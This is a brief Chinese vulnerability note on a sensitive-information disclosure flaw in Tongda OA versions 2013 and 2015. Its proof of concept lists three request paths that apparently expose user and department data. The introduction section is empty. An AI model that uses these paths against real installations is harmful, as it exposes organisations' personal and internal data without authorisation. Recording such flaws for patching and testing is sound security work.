 ```yaml
---
title: 通达oa ⻚面敏感信息泄露
id: zhfly3334
---
```


# 通达oa ⻚面敏感信息泄露

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

POC:

```
http://0-sec.org/general/get_userinfo.php
http://0-sec.org/general/ipanel/user/query.php
http://0-sec.org/general/info/dept/ 
```